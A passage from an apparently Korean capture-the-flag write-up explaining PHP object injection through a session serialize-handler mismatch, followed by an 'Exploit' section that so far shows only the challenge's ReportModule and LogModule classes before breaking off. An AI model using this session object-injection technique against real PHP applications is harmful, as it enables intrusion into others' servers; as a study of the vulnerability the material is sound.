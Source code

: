 이렇게 `|` 가 나오기 전까지는 세션명으로 인식하고 그 후는 세션 데이터로 인식하면서 성공적으로 `Object Injection`을 할 수 있게된다.



### Exploit

```php
<?php
error_reporting(0);
ini_set('session.serialize_handler', 'php');
# made by munsiwoo

class ReportModule
{
    public $target;

    public function __construct($tg) {
        $this->target = $tg;
    }

    public function send_report() {
        return $this->send_real();
    }

    private function send_real() {
        $target_host = parse_url($this->target, PHP_URL_HOST);
        if($target_host !== "localhost")
            return "Report can only be sent to localhost";

        /*
    $curl= curl_init();
    curl_setopt($curl, CURLOPT_URL, $this->target);
    $res = curl_exec($curl);
    curl_close($curl);
	*/

        return $res;
    }
}


class LogModule {
    public $filename, $rpt_module;

    private function write_line($data, $create=false) {
        if(!(isset($this->filename)))
            return -1;
        if(!$create && !file_exists($this->filename))
            return -2;
        if($create && file_exists($this->filename))
            return -3;
        return file_put_contents($this->filename, $data."\n", FILE_APPEND | LOCK_EX);
    }

    function __construct($name) {
        $this->filename = "log/$name";
        $rpt_module = null;
        $this->write_line("LOG:".$_SERVER["REMOTE_ADDR"], true);
    }

    public function set_rpt_module($custom_module) {
        if(!method_exists($custom_module, "send_report"))
            return false;
        $this->rpt_module = $custom_module;
        return true;
```